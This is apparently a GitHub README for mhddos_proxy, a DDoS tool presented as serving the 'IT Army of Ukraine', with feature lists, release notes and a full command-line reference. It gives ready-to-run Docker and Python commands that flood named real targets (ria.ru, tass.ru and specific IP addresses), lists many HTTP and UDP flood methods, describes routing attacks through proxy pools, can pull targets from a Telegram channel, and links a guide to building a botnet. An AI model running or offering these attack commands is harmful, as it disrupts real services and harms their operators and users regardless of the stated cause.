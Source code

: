 ## DDoS Tool for IT Army of Ukraine 

- Built-in proxy server database to attack from a wide range of IPs around the world
- Possibility to set a huge number of targets with automatic load balancing
- A variety of different DDoS methods
- Effective utilization of your resources due to the asynchronous architecture

### ⏱ Recent Release Notes

Update versions for | Mac | Linux | Android | Docker (UA only so far): https://telegra.ph/Onovlennya-mhddos-proxy-04-16

- **18.05.2022**
  - Added `--copies` option in order to run multiple copies (recommended for use with 4+ CPUs and network > 100 Mb / s).

- **15.05.2022**
  - Completely updated the asynchronous version, which ensures maximum efficiency and minimum load on the system
  - Efficient operation with larger values of the `-t` parameter (up to 10k) without the risk of "freezing" the whole system
  - A brand-new algorithm for load balancing between targets in order to achieve maximum attack efficiency
  - Attack types `RGET`, `RHEAD`, `RHEX` and `STOMP` added

<details>
  <summary>📜 Earlier Releases</summary>

- **23.04.2022** 
  - The `--vpn` option has been changed - now your IP/VPN is being used **together** with the proxy, rather than instead. To restore the previous behavior, use `--vpn 100`
- **20.04.2022**
  - Significantly improved the system resources utilization for the best attack efficiency
  - Added `--udp-threads` option in order to control the intensity of UDP attacks (default 1)
- **18.04.2022** 
  - In the `--debug` mode, total statistics for all targets have been added
  - More proxy servers have been added
- **13.04.2022** 
  - Added the option to disable targets and add comments to the configuration file; now lines starting with '#' are ignored
  - Fixed an issue of crashing the script after a long run and other bugs while changing loops
  - Fixed color display on Windows terminal (without editing the registry)
  - In case of no targets available, the script will wait, instead of stopping completely
- **09.04.2022** New proxy utilization system; as of now everyone gets ~ 200 proxies to attack from a total pool of 10,000+. The `-p` (` --period`) and `--proxy-timeout` parameters are deprecated
- **04.04.2022** Added the ability to use your own proxy list for the attack: [instructions] (#custom-proxies)
- **03.04.2022** Fixed 'Too many open files' bug (thanks to @kobzar-darmogray and @euclid-catoptrics)
- **02.04.2022** Working threads are being reused rather than restarted for each cycle. Ctrl-C has also been fixed
- **01.04.2022** Updated CFB attack method to synchronize with MHDDoS
- **31.03.2022** Added some reliable DNS servers instead of system ones for name resolution (1.1.1.1, 8.8.8.8 etc.)
- **29.03.2022** Added support for the local configuration file (thanks to @kobzar-darmogray)
- **28.03.2022** Table output implemented `--table` (thanks to @alexneo2003)
- **27.03.2022**
    - Implemented DBG, BOMB (thanks to @drew-kun for PR), and KILLER methods to synchronize with the original MHDDoS
- **26.03.2022**
    - Launch a number of selected attacks instead of random ones
    - Reduced RAM utilization on a large number of targets; now only the `-t` parameter affects RAM
    - Added DNS caching and correct handling of resolving problems
- **25.03.2022** Added VPN mode instead of proxy (`--vpn` flag)
- **25.03.2022** 
  - MHDDoS has been put in the repository for overall control over development
</details>

### 💽 Installation - [instructions are here](/docs/installation.md)

### 🕹 Running (different options for targets are given)

#### Docker (for Linux, add sudo in front of the command)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (If it doesn't work, try `python` or `python3.10` instead of `python3`)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Settings (check out more in the [CLI](#cli) section)

**All options can be combined**, you can specify them either before and after the list of targets

Change the workload: `-t XXXX`; the maximum number of simultaneously open connections; if the machine has one CPU, the default is 1000, if more than one, then is 7500.

***For Linux, add `sudo` in front of the `docker` command***

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

To monitor information about the attack progress, add the `--table` flag for the table-style display, `--debug` for the text

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --debug https://ria.ru https://tass.ru

To attack targets provided by https://t.me/itarmyofukraine2022 add the `--itarmy` option  

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table --itarmy

### 📌 New automatic proxy finder for mhddos_proxy
The script itself and installation instructions are here: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Community (mostly in Ukrainian)
- [Detailed analysis of mhddos_proxy and installation instructions](docs/installation.md)
- [Analysis of mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Example of running via docker on OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Create a botnet of 30+ free and standalone Linux servers (even with PC is off)](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help            show this help message and exit
      -c, --config URL|path URL or local path to file with attack targets
      -t, --threads 2000    Total number of threads to run (default is CPU * 1000)
      --copies 1            Number of copies to run (default is 1)
      --rpc RPC             How many requests to send on a single proxy connection (default is 2000)
      --table               Print log as table
      --debug               Print log as text
      --vpn [USE_MY_IP]     Use both my IP and proxies for the attack. Optionally, specify a percent of using my IP (default is 10%)
      --http-methods        {DYN,PPS,BYPASS,OVH,TREX,NULL,GET,DOWNLOADER,CFB,RHEAD,AVB,EVEN,SLOW,STRESS,XMLRPC,RGET,HEAD,APACHE,COOKIE,STOMP,RHEX,POST} [{DYN,PPS,BYPASS,OVH,TREX,NULL,GET,DOWNLOADER,CFB,RHEAD,AVB,EVEN,SLOW,STRESS,XMLRPC,RGET,HEAD,APACHE,COOKIE,STOMP,RHEX,POST} ...]
                            List of HTTP(s) attack methods to use. Default is GET + POST|STRESS
      --proxies URL|path    URL or local path(ex. proxies.txt) to file with proxies to use 
      --itarmy              Attack targets from https://t.me/itarmyofukraine2022  
      --scheduler-initial-capacity SCHEDULER_INITIAL_CAPACITY
                            How many tasks per target to initialize on launch
      --scheduler-fork-scale SCHEDULER_FORK_SCALE
                            How many tasks to fork on successful connect to the target
      --scheduler-failure-delay SCHEDULER_FAILURE_DELAY
                            Time delay before re-launching failed tasks (seconds)
      --lang {EN,UA}        Interface and report language

### Custom proxies

#### File format:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

where `protocol` can be one of 3 options: `http`|`socks4`|`socks5`. 
If `protocol` is not specified, default value `http` is being set.
For example, for a public proxy: `protocol=socks4 IP=114.231.123.38 PORT=3065` the format will be fhe following:
```shell
socks4://114.231.123.38:3065
```
and for private one: `protocol=socks4 IP=114.231.123.38 PORT=3065 username=isdfuser password=ashd1spass`
format can be one of the following:
```shell
socks4://114.231.123.38:3065:isdfuser:ashd1spass
socks4://isdfuser:ashd1spass@IP:PORT
```

**URL of the remote file for Python and Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
where https://pastebin.com/raw/UkFWzLOt is your web page with a list of proxies (each proxy should be on a new line)  

**Path for the local file for Python**  
  
Put the file in the folder with `runner.py` and add the following option to the command (replace `proxies.txt` with the name of your file)

    python3 runner.py --proxies proxies.txt https://ria.ru

where `proxies.txt` is your proxy list file (each proxy should be on a new line)

### Localization

As of now, the application supports 2 languages: English and Ukrainian. 
Default language is set by command line is Ukrainian, but it is likely to be changed as soon as we expand our community 
on other countries.

There are two ways to set the language:

### 1. By command line
    python3 runner.py --lang EN https://ria.ru
    python3 runner.py --lang UA https://ria.ru

Most likely, this is the way most Python users prefer to change it. 

### 2. By environment variable
    export MHDDOS_LANG=EN
    python3 runner.py https://ria.ru

An environment variable is easy to pass into the Docker container with the `-e` option

    docker run -e MHDDOS_LANG=UA -it --rm --log-driver none --name multidd --pull always karboduck/multidd
